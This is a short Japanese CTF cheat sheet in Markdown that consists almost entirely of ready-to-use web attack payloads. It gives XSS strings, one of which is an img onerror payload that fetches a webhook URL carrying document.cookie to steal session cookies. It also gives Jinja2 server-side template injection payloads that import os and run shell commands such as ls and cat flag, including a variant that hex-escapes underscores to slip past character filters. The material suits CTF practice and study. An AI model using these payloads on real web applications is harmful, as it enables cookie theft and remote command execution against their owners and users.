 # CTFチートシート
## XSS
通常バージョン
```javascript:XSS
';alert(String.fromCharCode(88,83,83))//';alert(String.fromCharCode(88,83,83))//";
alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//--
></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
```
```html:XSS
&lt;img src=x onerror=fetch(atob('webhookURL(btoa)')+?cookie='+document.cookie)&gt;
```
## SSTI:
問題にどこにファイルがあるかわからない時には
```Python:SSTI_ls
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
SSTIができる時には、
```Python:SSTI_payload1
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flags').read()}}
```

使えない文字がある場合
```Python:SSTI_payload2
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
```
この場合はFlagの名前が、**flag**だとする
